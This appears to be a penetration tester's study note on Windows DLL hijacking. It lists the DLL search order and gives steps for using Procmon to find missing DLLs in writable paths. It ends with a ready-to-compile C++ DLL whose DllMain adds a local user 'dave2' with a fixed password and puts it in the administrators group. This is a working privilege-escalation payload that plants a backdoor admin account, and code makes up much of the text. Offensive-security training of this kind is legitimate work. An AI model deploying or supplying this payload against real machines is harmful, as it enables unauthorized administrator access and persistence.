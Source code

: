
Search order in the safe DLL search mode, activated by default:
1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory. 
5. The current directory.
6. The directories that are listed in the PATH environment variable.

#### Technique:
1. Copy the binary to a local machine
2. Run Procmon64 (requires admin, therefore the copy)
3. Set a filter to `Process Name is example.exe`
4. Run binary
5. Look for `CreateFile` calls in the `Operation` column
6. If the `Details` column says `Name not found`, look whether one of those directories is writeable for us on the actual target. In that case, we can just create a DLL in this path. Otherwise, we could look whether we have write permissions on some of the successfully called DLLs.
7. Restart the service. If we don't have the permission but we can restart the host (`whoami /priv`) and the service has the `StartMode` set to `Auto` (see [[2_loot-privEsc_Windows_Manually]]), we could restart the whole machine (`reboot /r /t 0`).

#### Example payload
Compile with the `--shared` flag, as shown in [[8_crosscompile2windows_guide]].
```c++
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave2 password123! /add");
  	    i = system ("net localgroup administrators dave2 /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```